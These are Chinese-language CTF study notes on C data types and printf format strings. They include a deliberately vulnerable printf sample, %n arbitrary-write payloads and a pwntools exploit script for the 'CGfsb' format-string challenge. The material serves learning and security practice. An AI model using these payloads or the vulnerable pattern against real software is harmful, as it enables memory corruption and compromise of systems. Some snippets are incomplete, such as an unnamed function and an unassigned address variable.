signed char|1|-2^7(-128) ~ 2^7-1(127)
short int 或 short|2|-2^15(-32 768) ~ 2^15-1(32 767)
int|4|-2^31(-2 147 483 648) ~ 2^31-1(2 147 483 647)
long int 或 long|4|-2^31(-2 147 483 648) ~ 2^31-1(2 147 483 647)
long long int 或 long long|8|-2^63(-9.2233720368548e+18) ~ 2^63-1(9.2233720368548e+18)

无符号整数类型

类型名称|字节数|取值范围
-|-|-
unsigned char|1|0 ~ 2^8-1(255)
unsigned short int 或 unsigned short|2|0 ~ 2^16-1(65 535)
unsigned int|4|0 ~ 2^32-1(4 294 967 295)
unsigned long int 或 unsigned long|4|0 ~ 2^32-1(4 294 967 295)
unsigned long long int 或 unsigned long long|8|0 ~ 2^64-1(1.844674407371e+19)

浮点类型

类型名称|字节数|取值范围
-|-|-
float|4|-/+3.4e38（精确到6位小数）
double|8|-/+1.7e308（精确到15位小数）
long double|12|-/+1.19e4932（精确到18位小数）

极限值符号

表示有符号整数类型的极限值符号

类型名称|下限|上限
-|-|-
char|CHAR_MIN|CHAR_MAX
short|SHRT_MIN|SHRT_MAX
int|INT_MIN|INT_MAX
long|LONG_MIN|LONG_MAX
long long|LLONG_MIN|LLONG_MAX

表示无符号整数类型的极限值符号

类型名称|下限|上限
-|-|-
unsigned char|0|UCHAR_MAX
unsigned short|0|USHRT_MAX
unsigned int|0|UINT_MAX
unsigned long|0|ULONG_MAX
unsigned long long|0|ULLONG_MAX

表示浮点类型的极限值符号

类型名称|下限|上限
-|-|-
float|FLT_MIN|FLT_MAX
double|DBL_MIN|DBL_MAX
long double|LDBL_MIN|LDBL_MAX

### printf

    %d - 十进制 - 输出十进制整数
    %s - 字符串 - 从内存中读取字符串
    %x - 十六进制 - 输出十六进制数
    %c - 字符 - 输出字符
    %p - 指针 - 指针地址
    %n - 到目前为止所写的字符数,%n这个格式化字符串，它的功能是将%n之前打印出来的字符个数，赋值给一个变量，例如这样：
         可以理解成 %n 是对变量赋值, 值为长度数
         %?$n 向栈内第?个指向的 地址处写入字符串长度。
         比如栈内第2个值为0x40056a, %85c%2$n，就是向地址0x40056a写入85

[Link](https://blog.csdn.net/qinying001/article/details/98527949) 可以理解成 %n 是对变量赋值, 值为长度数

```c
#include <stdio.h>

int main(int argc, char const *argv[])
{
    int a = 0;
    printf("Hello world%n", &a);
    printf("%d\n", a);
    return 0;
    // Hello world11, a的值被改变了, gcc编译下。
}
```

任意内存读取

```
#include <stdio.h>
int (){
        char str[100];
        scanf("%s",str);
        printf(str);
}
```

任意内存写入

```
printf("addr%m$n",&arg);
在addr地址的第m个参数写入4个字节(addr)的数据，arg=4
```


%85c%7$n ，作用是将85写入栈内第7个参数所指向的地址。

在 printf 中，使用 `*<a_number_of_chars>%<number>$n*` 就可以将相应的第 `*<number>*` 个参数的位置写为 % 前输出的字符数量

如本题先用 %85c 输出了85个字符，再用 %7$n 将第七个参数的位置写成了85


#### $的作用

Linux下, x$指栈第x个参数的地址, 下面2$指第2个地址, $1指第一个地址. 即输出2, 3
```c
    int a = 3, b = 2;
    printf("%2$d %1$d", a, b);
```

#### 示例 CGfsb
通常2次输入

    1.1111
    2.输入 aaaa-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x
    aaaa-ffffd22e-f7fb4580-00000001-00000000-00000001-f7ffd940-31310001-000a3131-00000000-61616161-3830252d-30252d78
    ***1-*******2-*******3-*******4-*******5-*******6-*******7-*******8-*******9-******10-*'1111'*

偏移是10, 拖动调试。第二次printf处下断点。 

    payload = flat(p32(0x0804A068), 'a'*4 ,'%10$n')
    send(payload)后 

x/16wx $esp # 查看栈情况

    fff2a488 fff2a47e f7f47580 00000001 00000000 00000001 f7f90940 61610001 000a6161 00000000 0804a068 61616161
    ******01 ******02 ******03 ******04 ******05 ******06 ******07 ******08 ******09 ******10 ******11 ***aaaa*


exp:

```python
from pwn import *
context.log_level = 'debug'
conn = process('./e41a0f684d0e497f87bb309f91737e4d')
# conn = remote("220.249.52.133",56225)
pwnme = 
payload1 = 'aaaa'
payload2 = flat(p32(pwnme), 'a'*4 ,'%10$n')  #pwnme地址占4个字节，所以后面需要打印4个a
conn.recvuntil('please tell me your name:')
conn.sendline(payload1)
# gdb.attach(conn)
conn.recvuntil('leave your message please:') 
conn.sendline(payload2)
conn.interactive()
print(conn.recvall())
```
### PLT & GLT

[Link](https://blog.csdn.net/linyt/article/details/51635768)

简称|全称|Desc
-|-|-
GOT|Global Offset Table|存放函数地址的数据表，重局偏移表
PLT|Procedure Link Table|额外代码段表，称为程序链接表

联合出手完成重定位。



### 常用函数
#### read()
用于文件描述符对应的文件中读取数据，原型：

`ssize_t read(int fd,void*buf,size_t count)`

参数说明：

    fd: 是文件描述符, 从command line获取数据时，为0
    buf: 为读出数据的缓冲区；
    count: 为每次读取的字节数（是请求读取的字节数，读上来的数据保
    存在缓冲区buf中，同时文件的当前读写位置向后移）

返回值：

    成功：返回读出的字节数
    失败：返回-1，并设置errno，如果在调用read
    之前到达文件末尾，则这次read返回0

#### write()
用于将数据写入到文件描述符对应的文件，原型：

`ssize_t write(int fd,const void*buf,size_t count);`

参数说明：

    fd:是文件描述符（输出到command line，就是1）
    buf:通常是一个字符串，需要写入的字符串
    count：是每次写入的字节数

返回值：

    成功：返回写入的字节数
    失败：返回-1并设置errno
    ps： 写常规文件时，write的返回值通常等于请求写的字节
    数count， 而向终端设备或者网络写时则不一定

因此，read函数就可以取代scanf从command line读取数据；write函数就可以代替printf，往command line打印输出。
